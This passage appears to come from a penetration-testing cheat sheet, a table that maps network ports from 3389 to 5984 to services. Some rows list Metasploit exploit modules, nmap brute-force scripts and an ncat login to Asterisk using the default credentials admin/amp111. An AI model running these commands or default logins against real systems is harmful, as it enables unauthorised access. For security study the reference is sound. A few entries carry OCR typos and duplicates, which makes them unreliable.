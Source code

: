 |3389||RDP||
|3541||PBX GUI||
|3542||PBX GUI||
|3632|tcp|distccd|msf > use exploit/unix/misc/distcc_exec |
|3689||DACP||
|3780||Metasploit||
|3787||Ventrilo||
|4022||udpxy||
|4369|tcp|Erlang Port Mapper Daemon|nmap -p 4369 --script epmd-info `target`|
|4440|tcp|rundeck||
|4500||IKE NAT-T(VPN)||
|4567||Modem web interface||
|4070||VertX/Edge door controller||
|4800||Noxa Nport||
|4911||Niagara Fox with SSL||
|4949||Munin||
|5006||MELSEC-Q||
|5007||MELSEC-Q||
|5008||NetMobility||
|5009||Apple Aitport Administrator||
|5038|tcp|Asterisk Call Manager|http://code.google.com/p/sipvicious/<BR><BR>$ ncat -v 192.168.108.196 5038<BR>Ncat: Version 6.47 ( http://nmap.org/ncat )<BR>Ncat: Connected to 192.168.108.196:5038.<BR>Asterisk Call Manager/1.1<BR>action: login<BR>username: admin<BR>secret: amp111<BR><BR>Response: Success<BR>Message: Authentication accepted<BR>action: command<BR>command: core show help|
|5432|tcp|postgresql||
|5060|udp|sip|msf > use auxiliary/scanner/sip/options|
|5222||XMPP||
|5269||XMPP Server to Server||
|5353||mDNS||
|5357||Mirosoft-HTTP API/2.0||
|5432||Postgresql||
|5555|tcp|hp data protector|msf > use exploit/windows/misc/hp_dataprotector_cmd_exec|
|5577||Flux LED||
|5601|tcp|kibana||
|5632||PCAnywhere||
|5672||RabbitMQ||
|5900|tcp|vnc|msf > use auxiliary/scanner/vnc/vnc_none_auth<BR>msf > use auxiliary/scanner/vnc/vnc_login <BR>msf > use exploit/multi/vnc/vnc_keyboard_exec<BR>nmap --script vnc-brute -p 5900 <host><BR>nmap --script vnc-info -p 5900 <host>|
|5901||vnc||
|5938||TeamViewer||
|5984||CouchDB||